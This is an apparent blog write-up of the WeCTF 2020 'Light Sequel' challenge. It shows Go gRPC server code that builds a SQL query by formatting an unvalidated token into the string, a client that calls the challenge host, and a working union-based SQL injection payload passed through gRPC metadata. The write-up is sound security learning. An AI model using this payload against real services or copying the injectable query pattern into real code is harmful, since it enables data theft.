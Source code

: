 ```yaml
---
title: "wectf: Light Sequel"
date: 2020-06-14T23:36:38-04:00
draft: false
toc: false
images:
tags: [sqli, golang]
---
```

This was a nice opportunity to see grpc in action.

They provided the code for the server, as well as the protobuf-based
service.

[full code here](https://github.com/shouc/wectf-2020/tree/master/light_sequel)

Looking at the code, I saw a possible sql injection vulnerability here (in the
where clause):

```go
func (s *srvServer) GetLoginHistory(ctx context.Context, _ *pb.SrvRequest) (*pb.SrvReply, error) {
  md, _ := metadata.FromIncomingContext(ctx)
  if len(md["user_token"]) == 0 {
    // no user token provided by upstream
    return &pb.SrvReply{
      Ip: nil,
		}, nil
  }
  userToken := md["user_token"][0]
  var ul []UserLogs
  err := db.Table("user_logs AS ul").
    Select("ul.ip").
    Where(fmt.Sprintf("ul.user_id = (SELECT id FROM users AS u WHERE u.token = '%s')", userToken)).
    Find(&ul)
  if err != nil {
    log.Println(err)
  }
  // convert struct to an array
  var ips []string
  for _, v := range ul {
    ips = append(ips, v.Ip)
  }
  return &pb.SrvReply{
    Ip: ips,
  }, nil
}
```

First step: implement a client to be able to call the `GetLoginHistory`. I went
through the steps of invoking the `AuthSrv` and registering, but it turns out
that wasn't actually needed--the `GetLoginHistory` is only checking the token
exists, without validation.

```go
func main() {
	conn, err := grpc.Dial("light.w-va.cf:1004", grpc.WithInsecure())
	if err != nil {
		panic(err)
	}
	defer conn.Close()
	srvc := proto.NewSrvClient(conn)
	srvreq := proto.SrvRequest{}
	srvresp, err := srvc.GetLoginHistory(context.Background(), &srvreq)
	if err != nil {
		panic(err)
	}
	fmt.Println(srvresp)
}
```

It took me a bit more effort to figure out how to pass a `user_token` into the
`md` via the `metadata.FromIncomingContext(ctx)`. And from there,
a union-based sql injection to get the flag.

```go
  srvc := proto.NewSrvClient(conn)
  md := metadata.New(map[string]string{"user_token": "')) union select flag from flags--"})
  ctx := metadata.NewOutgoingContext(context.Background(), md)
  srvreq := proto.SrvRequest{}
```

It was cool to learn about grpc and xorm as well--haven't done serious golang in
a while. Thanks wectf. :)
